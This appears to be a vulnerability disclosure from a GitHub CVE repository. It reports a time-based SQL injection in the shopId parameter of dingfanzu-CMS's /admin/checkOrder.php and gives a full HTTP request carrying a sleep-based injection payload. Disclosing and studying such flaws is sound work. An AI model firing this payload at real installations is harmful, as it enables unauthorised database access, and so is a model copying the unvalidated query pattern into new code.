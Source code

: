 # dingfanzu-CMS checkOrder.php shopId SQL-inject

**Exploit Title: dingfanzu-CMS checkOrder.php shopId SQL inject**

**Exploit Author: https://github.com/xiaosguang/cve/blob/main/dingfanzu**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "checkOrder.php" shopId module, resulting in the generation of SQL injection.

The path to the vulnerability：/admin/checkOrder.php?shopId=

    Payload used:

```
GET /admin/checkOrder.php?shopId=0002'+and+sleep(3)--+ HTTP/1.1
Host: dingfanzu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: adminId=16; adminName=liu; shopId=1000; Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1736094869; HMACCOUNT=74321D4C60CCF393; PHPSESSID=su7te2f8aq0m0hg3ukdbf7ouqm; places=%5B%7B%22shopId%22%3A%221000%22%2C%22shopName%22%3A%22%5Cu9f50%5Cu9c81%5Cu5927%5Cu53a6%22%7D%2C%7B%22shopId%22%3A%221001%22%2C%22shopName%22%3A%22%5Cu6e56%5Cu5317%5Cu5927%5Cu53a6%22%7D%5D; userId=aaa1; shopInfo=%7B%22shopId%22%3A%221001%22%2C%22shopName%22%3A%22%E6%B9%96%E5%8C%97%E5%A4%A7%E5%8E%A6%22%2C%22shopPhone%22%3Anull%2C%22shopTip%22%3A%22%E5%93%88%E5%93%88%22%2C%22shopState%22%3A%221%22%2C%22shopIcon%22%3A%221001.jpg%22%2C%22shopBlock%22%3A%22%3F%23A%23B%23%22%2C%22shopFloor%22%3A%22%3F%231%232%233%22%7D; cart1001=%5B%7B%22itemId%22%3A%221685431107987%22%2C%22name%22%3A%22%5C%5Cu897f%5C%5Cu7ea2%5C%5Cu67ff%5C%5Cu7092%5C%5Cu9e21%5C%5Cu86cb%22%2C%22count%22%3A1%2C%22price%22%3A%2211%22%7D%5D; myInfo=%7B%22userId%22%3A%22aaa1%22%2C%22paymethod%22%3A%220%22%2C%22pn%22%3Anull%2C%22name%22%3Anull%2C%22place%22%3A%22%22%2C%22block%22%3Anull%2C%22floor%22%3Anull%2C%22jifen%22%3Anull%2C%22email%22%3Anull%2C%22price%22%3A%220%22%2C%22orderArrivedTime%22%3A%221%3A30-2%3A00%22%2C%22orderRemark%22%3A%22%22%7D; cart0001=%5B%7B%22itemId%22%3A%221466524398193%22%2C%22name%22%3A%22%5C%5Cu5bab%5C%5Cu4fdd%5C%5Cu9e21%5C%5Cu4e01%5C%5Cu002b%5C%5Cu9e21%5C%5Cu86cb%5C%5Cu7092%5C%5Cu9ec4%5C%5Cu74dc%5C%5Cu002b%5C%5Cu897f%5C%5Cu7ea2%5C%5Cu67ff%5C%5Cu6284%5C%5Cu725b%5C%5Cu8169%22%2C%22count%22%3A1%2C%22price%22%3A%2215%22%7D%5D; shopId=1001; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1736099897
Connection: keep-alive


```



## Proof of Concept

The code does not validate the input data and does not use precompilation technology


![image-20250106015104794](https://github.com/user-attachments/assets/2780414f-c453-4396-b332-3b054080ccb6)



Practical verification

![image-20250106021003686](https://github.com/user-attachments/assets/656d9fab-e036-4d83-9bf0-06a19b94a48c)
